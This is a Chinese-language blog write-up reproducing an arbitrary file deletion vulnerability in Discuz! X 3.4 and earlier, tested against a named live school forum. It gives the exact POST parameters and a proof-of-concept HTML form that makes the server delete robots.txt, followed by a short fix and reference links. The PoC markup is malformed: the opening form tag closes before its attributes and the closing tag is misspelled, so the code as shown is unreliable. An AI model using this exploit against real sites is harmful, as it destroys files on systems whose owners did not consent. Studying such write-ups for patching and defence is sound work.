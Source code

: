 ```yaml
---
layout: post
title: "Discuz x Arbitrary file deletion"
subtitle: "Discuz x 任意文件删除复现"
date: 2019-01-17
author: ppbibo
category: security
finished: true
---
```

[TOC]

# Discuz x 任意文件删除复现

Discuz x Arbitrary file deletion



#### 前言：

上次爆出过dz任意删除文件的漏洞，这次正好测试一下。

域名： [http://bbs.czxy.com](http://bbs.czxy.com/)

标题： 传智专修学院社区_传智专修学院交流社区 - Powered by Discuz!

后台URL：[http://bbs.czxy.com/admin.php](http://bbs.czxy.com/admin.php)

CMS & Version：Discuz x3.3

 • 对传智专修学院社区进行安全测试。

 • 已修复。

##### 影响范围

Discuz!X ≤3.4

#### 复现过程：

访问：[http://bbs.czxy.com/robots.txt](http://bbs.czxy.com/robots.txt)

[![QQ20190117-142633@2x](/static/img/QQ20190117-142633@2x.png)](/static/img/QQ20190117-142633@2x.png)

登录用户访问：

[http://bbs.czxy.com/home.php?mod=spacecp&ac=profile](http://bbs.czxy.com/home.php?mod=spacecp&ac=profile)

查看源代码下formhash的值

[![QQ20190117-142618@2x](/static/img/QQ20190117-142618@2x.png)](/static/img/QQ20190117-142618@2x.png)

```
请求：http://bbs.czxy.com/home.php?mod=spacecp&ac=profile

POST提交：

birthprovince=robots.txt&profilesubmit=1&formhash=ba84488f
```

[![QQ20190117-142704@2x](/static/img/QQ20190117-142704@2x.png)](/static/img/QQ20190117-142704@2x.png)

#### 构造poc

**Filename : Poc.html**

```
<form>

action="http://bbs.czxy.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=zsdlove" method="POST" enctype="multipart/form-data">

<input type="file" name="birthprovince" id="file" /> <br><br>

<input type="text" name="formhash" value="ba84488f"/><br><br>

<input type="text" name="profilesubmit" value="1"/><br><br>

<input type="submit" value="Submit" />

</from>
```

[![QQ20190117-142720@2x](/static/img/QQ20190117-142720@2x.png)](/static/img/QQ20190117-142720@2x.png)

上传任意图片提交，访问[http://bbs.czxy.com/robots.txt](http://bbs.czxy.com/robots.txt)

[![QQ20190117-143006@2x](/static/img/QQ20190117-143006@2x.png)](/static/img/QQ20190117-143006@2x.png)

/robots.txt 文件已被删除。

#### 修复方案

https://www.sinesafe.com/article/20171006/discuz3.2.html

删除unlink相关代码。

```
# 备份的robots.txt
# robots.txt for Discuz! X3
#

User-agent: *
Disallow: /api/
Disallow: /data/
Disallow: /source/
Disallow: /install/
Disallow: /template/
Disallow: /config/
Disallow: /uc_client/
Disallow: /uc_server/
Disallow: /static/
Disallow: /admin.php
Disallow: /search.php
Disallow: /member.php
Disallow: /api.php
Disallow: /misc.php
Disallow: /connect.php
Disallow: /forum.php?mod=redirect*
Disallow: /forum.php?mod=post*
Disallow: /home.php?mod=spacecp*
Disallow: /userapp.php?mod=app&*
Disallow: /*?mod=misc*
Disallow: /*?mod=attachment*
Disallow: /*mobile=yes*
```

##### 参考链接

https://www.sinesafe.com/article/20171006/discuz3.2.html

[http://www.freebuf.com/vuls/149904.html](http://www.freebuf.com/vuls/149904.html)

https://xz.aliyun.com/t/34#toc-5